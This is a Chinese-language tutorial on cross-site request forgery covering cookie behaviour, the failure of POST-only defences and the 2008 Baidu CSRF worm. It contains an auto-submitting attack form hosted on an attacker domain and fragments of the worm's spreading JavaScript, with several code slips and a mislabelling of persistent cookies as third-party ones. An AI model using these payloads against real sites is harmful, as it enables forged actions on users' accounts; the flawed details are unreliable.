#CSRF

Cross Site Request Forgery


##Classic CSRF attack

![Classic CSRF attack](img/csrf attack.png)

所以，要完成一次CSRF攻击，必须要经历两个步骤:
 1.登陆受信任网站A，并在本地生成Cookie；
 2.在不登出A的情况下，访问危险网站B。
 
##浏览器的Cookie策略

攻击者通过实施CSRF攻击之所以能够成功，是因为攻击者通过用户的浏览器成功发送了Cookie的缘故。
浏览器所持有的Cookie分为两种：临时Cookie（Session Cookie）和本地Cookie（Third-party Cookie）。
Third-party Cookie可以保持登录信息到用户下次与服务器的会话。下次访问同一网站时，用户会发现不必输入用户名和密码就已经登录了。而Session Cookie在用户退出会话的时
候就被删除了。
Third-party Cookie在生成时就会被指定一个Expire值，这就是Cookie的生存周期，在这
个周期内Cookie有效，超出周期Cookie就会被清除。
在浏览网站的过程中，若是一个网站设置了Session Cookie，那么在浏览器进程的生命周期内，即使浏览器新打开了Tab页，Session Cookie也都是有效的，这样攻击者伪装来自受信任用户的请求来访问受信任的网站就如正常一般了。


##POST请求无法防范CSRF


一些人认为CSRF攻击只能由GET请求发起，只要把重要的操作改成只允许POST请求，就能防止CSRF攻击。但是对于很多网站的应用来说，一些重要操作并未严格区分GET与
POST，攻击者可以使用GET来请求表单的提交地址。
如：
![POST CODE1](img/POST_1.png)
     <form action=”/login” id=”login” method=”post”>
     <input type=text name=”username” value=””/>
     <input type=password name=”password” value=””/>
     <input type=submit name=”submit” value=”submit”/>
     </form>
     
用户可以尝试构造一个GET请求：

http://localhost/login?username=a&password=a

如果服务器端已经区分了GET和POST，这样攻击者可以构造一个POST请求。
最简单的方法是在一个页面中构造一个form表单，然后使用JavaScript自动提交这个表单。
攻击者在www.attack.com/attack.html 中编写如下代码：

![POST CODE1](img/POST_2.png)
     <form action=”http://www.target,com/login” id=”login” method=”post”>
     <input type=text name=”username” value=””/>
     <input type=password name=”password” value=””/>
     <input type=submit name=”submit” value=”submit”/>
     </form>
     <script>
     var a = document.getElementById(“login”);
     a.inputs[0].value = “a”;
     a.inputs[1].value = “a”;
     f.submit();
     </script>

##CSRF Worm

2008年9月，国内的安全组织80sec公布了一个百度的CSRF worm

漏洞出现在百度用户中心的发送短消息功能中：

http://msg.baidu.com/?ct=22&cm=MailSend&tn=bmSubmit&sn=用户账户&co=消息内容

只需要修改参数sn，即可对指定的用户发送短消息。而百度的另外一个接口则能查询出某个用户的所有好友：

http://frd.baidu.com/?ct=28&un=用户账户&cm=FriList&tn=bmABCFriList&callback=gotfriends

将两者结合起来，可以组合成一个CSRFworm——让一个百度用户查看恶意页面后，将给他的好友发送一条短消息，然后这条短消息中又包含一张图片，其地址再次指向CSRF页面，使得这些好友再次执行上一个操作。

Step 1：

     var lsURL=window.location.href;
     loU = lsURL.split(“?”);
     if(loU.length>1)
     {
      var loallPm = loU[1].split(“&”);
     ....

定义蠕虫页面服务器地址，取得？和&符号后的字符串，从URL中提取感染蠕虫的用户名和感染者好友的用户名。

Step 2:

     var gotfriends = function (x)
     {
      for(i=0;i<x[2].length;i++)
        {
          friends.push(x[2][i][1]);
        }
     }
     loadtom(‘<script scr=”http://frd.baidu.com/?ct=28&un=”+lusername+”&cm=FriList&tn=bmABCFriList&callback=gotfriends&.tmp=&1=2”></script>’);
     
通过CSRF漏洞从远程加载受害者的好友tom数据，根据该接口的tom数据格式，提取好友数据为蠕虫的传播流程做准备。

Step 3：感染信息输出和消息发送的核心部分。

这个蠕虫很好地展示了CSRF的破坏性--即使没有XSS漏洞，仅仅依靠CSRF，也能够发起大规模蠕虫攻击。
